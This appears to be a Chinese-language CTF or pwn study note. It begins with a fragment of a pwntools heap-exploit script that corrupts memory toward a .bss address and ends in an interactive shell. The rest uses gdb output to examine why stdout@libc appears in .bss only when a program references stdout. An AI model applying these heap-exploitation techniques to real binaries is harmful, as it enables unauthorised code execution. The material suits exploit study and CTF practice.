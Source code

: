 ```python
free(1)
add(0,0x38,'\x7a\x20\x60\n')
add(0,0x38)
add(0,0x38)
aim=0x6020c0-0xd8+88
add(0,0x38,p64(0).ljust(22,'\x00')+p64(aim)+'\n')
gdb.attach(p,'b *0x7ffff7a8269b')
cmd("nier")
p.interactive()
```


# end
## I
main.c
```c
#include<stdio.h>
int main()
{
printf("nier");
}
```
```arm
   0x7ffff7a62885 <printf+133>    mov    qword ptr [rsp + 0x18], rax
   0x7ffff7a6288a <printf+138>    mov    rax, qword ptr [rip + 0x36e6bf]
   0x7ffff7a62891 <printf+145>    mov    rdi, qword ptr [rax]
 ► 0x7ffff7a62894 <printf+148>    call   vfprintf <0x7ffff7a5a170>
        s: 0x7ffff7dd2620 (_IO_2_1_stdout_) ◂— 0xfbad2084
        format: 0x4005c4 ◂— 0x7265696e /* 'nier' */
        arg: 0x7fffffffdd38 ◂— 0x3000000008
 
   0x7ffff7a62899 <printf+153>    add    rsp, 0xd8
   0x7ffff7a628a0 <printf+160>    ret    

```
此时rax是指向libc的某处 用的是libc上的..并且bss上没有stdout@libc
## II
将源码改成
```c
#include<stdio.h>
int main()
{
int i=stdout;
printf("nier");
}
```
同样执行到
```arm
   0x7ffff7a62885 <printf+133>    mov    qword ptr [rsp + 0x18], rax
   0x7ffff7a6288a <printf+138>    mov    rax, qword ptr [rip + 0x36e6bf]
   0x7ffff7a62891 <printf+145>    mov    rdi, qword ptr [rax]
 ► 0x7ffff7a62894 <printf+148>    call   vfprintf <0x7ffff7a5a170>
        s: 0x7ffff7dd2620 (_IO_2_1_stdout_) ◂— 0xfbad2084
        format: 0x400614 ◂— 0x7265696e /* 'nier' */
        arg: 0x7fffffffdd38 ◂— 0x3000000008
 
   0x7ffff7a62899 <printf+153>    add    rsp, 0xd8
   0x7ffff7a628a0 <printf+160>    ret    
```
可是此时的rax
```arm
 RAX  0x601038 (stdout@@GLIBC_2.2.5) —▸ 0x7ffff7dd2620 (_IO_2_1_stdout_) ◂— 0xfbad2084
```